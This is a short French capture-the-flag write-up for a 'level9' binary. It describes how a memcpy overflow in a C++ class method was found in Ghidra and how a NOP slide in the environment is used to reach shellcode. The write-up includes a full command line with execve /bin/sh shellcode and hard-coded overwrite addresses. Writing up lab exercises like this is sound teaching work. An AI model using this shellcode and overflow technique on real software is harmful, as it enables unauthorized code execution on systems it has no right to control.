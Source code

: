 La petite difference avec ce programme des autres, c'est qu'il a été fait en c++.<br/>
On peut voir dans ghidra l'initialisation de la class `N` deux fois et la fonction `setAnnotation` qui va nous permettre de faire un overflow via `memcpy`.<br/>
On va donc utiliser notre shellcode du level2 et le mettre dans l'argument du programme.

*Note: memcpy utilise strlen sur le paramètre, faire attention à ne pas mettre de `\x00` dans le shellcode.*

![ghidra main, setAnnotation method in N Class](./ghidra_level9.png)

On va essayer de faire un `NOP Slide`, ce qui est de remplire un bout de la stack avec des `NOP` et suivi de notre shellcode directement dans l'environnement. Ainsi, on va pouvoir overflow la stack et tomber sur notre shell.

Le `env -i` va vider notre env et mettre uniquement notre payload. Le `payload` va être notre `NOP Slide` suivi de notre shellcode.<br/>
Ensuite on va lancer le programme avec comme argument l'adresse de notre `NOP Slide` suivi de `B` pour pouvoir overflow la variable de taille 108 octets et ensuite l'adresse de retour de la fonction `main`.
```
$ env -i payload=`python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'` ./level9 `python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"'`
```
